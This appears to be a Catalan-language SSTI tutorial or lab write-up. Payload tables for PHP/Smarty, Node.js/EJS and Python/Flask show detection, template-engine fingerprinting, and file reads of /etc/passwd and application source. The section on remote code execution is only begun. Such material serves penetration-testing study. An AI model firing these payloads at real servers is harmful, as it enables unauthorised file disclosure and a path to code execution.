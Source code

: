 ### Detectar SSTI

Intentem detectar SSTI en els tres ports i en trobem un per a cada tecnologia.

| Tecnologia  | Port | Payload enviat    | Resultat  |
|:-----------:|------|-------------------|-----------|
| PHP         |  80  | `{7*7}`           | Hola, 49! |
| Node.js     | 3000 | `<%=7*7%>`        | Hola, 49! |
| Python      | 5000 | `{{7*7}}`         | Hola, 49! |

### Detectar motor de plantilla que corre darrere

Cada tecnologia de backend (PHP, Node.js, Python, Java, ...) pot tenir diferents motors de plantilles (Smarty, EJS, ...). Normalment, alguns motors són més habituals en certes tecnologies, però creieu-me, hi ha invents estranys que permeten utilitzar motors dissenyats per a PHP en Node.js (https://github.com/ecomfe/smarty4js), etc.

A més de les tècniques explicades en les referències anteriors, també podem intentar comprendre millor com funciona cada motor de plantilles i utilitzar possibles variables que només apareguin en cadascun d’ells.

Exemple:

| Tecnologia  | Port | Payload enviat                | Resultat esperat                                    |
|:-----------:|------|-------------------------------|-----------------------------------------------------|
| PHP         |  80  | `{$smarty.version}`          | Versió del motor de plantilla **Smarty**           |
| Node.js     | 3000 | `<%=JSON.stringify(locals)%>` | Totes les variables incloses en la plantilla **EJS** |
| Python      | 5000 | `{{config}}`                  | Configuració de **Flask**                          |

Aquests són només alguns exemples. La clau és conèixer una mica cada motor de plantilles per poder identificar-los.

### Aconseguir LFI (Local File Inclusion) i RCE (Remote Code Execution)

Ara ja sabem les tecnologies que estan corrent en el backend i també els payloads que ens permeten executar PHP, Node.js i Python a través de la injecció en la plantilla.

Precisament les funcions, llibreries i mòduls d’aquestes tecnologies són les que utilitzarem per aconseguir un LFI i RCE.

#### Taula d'exemples LFI

| Tecnologia  | Port | Payload enviat                                                                                                  | Resultat                      |
|:-----------:|------|----------------------------------------------------------------------------------------------------------------|--------------------------------|
| PHP         |  80  | `{file_get_contents("/etc/passwd")}`                                                                           | Fitxer passwd                 |
| Node.js     | 3000 | `<%- include("/app/node-app/app.js")%>`                                                                        | Codi font de l'aplicació       |
| Python      | 5000 | `{{'X'.__class__.__base__.__subclasses__()[101].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}` | Fitxer passwd                 |

